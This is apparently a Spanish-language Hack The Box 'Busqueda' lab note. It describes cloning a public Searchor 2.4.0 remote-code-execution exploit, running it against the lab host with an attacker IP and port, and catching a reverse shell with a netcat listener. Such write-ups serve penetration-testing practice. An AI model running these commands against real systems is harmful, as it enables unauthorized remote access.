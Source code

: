 #searchor240 

-----

Usamos el repositorio https://github.com/twisted007/Searchor_2.4.0_RCE_Python

-----
Vemos al final de la pagina que esta corriendo searchor 2.4.0
![[Busqueda13.png]]

Asi que con [[git clone]] vamos a usar ``git clone https://github.com/twisted007/Searchor_2.4.0_RCE_Python`` para descargar el repositorio, luego con [[cd]] usamos `cd Searchor_2.4.0_RCE_Python` para entrar a la carpeta y ejecutamos el exploit `python3 searchor-2_4_0_RCE.py searcher.htb 10.10.16.84 443`
En los parametros vamos a colocar la pagina web victima y luego la ip/puerto donde vamos a estar en escucha con [[nc -nlvp 443]] para recibir la [[Reverse shell]]



![[Busqueda14.png]]

![[Busqueda15.png]]
Ya estamos dentro de la maquina victima como el usuario *svc*
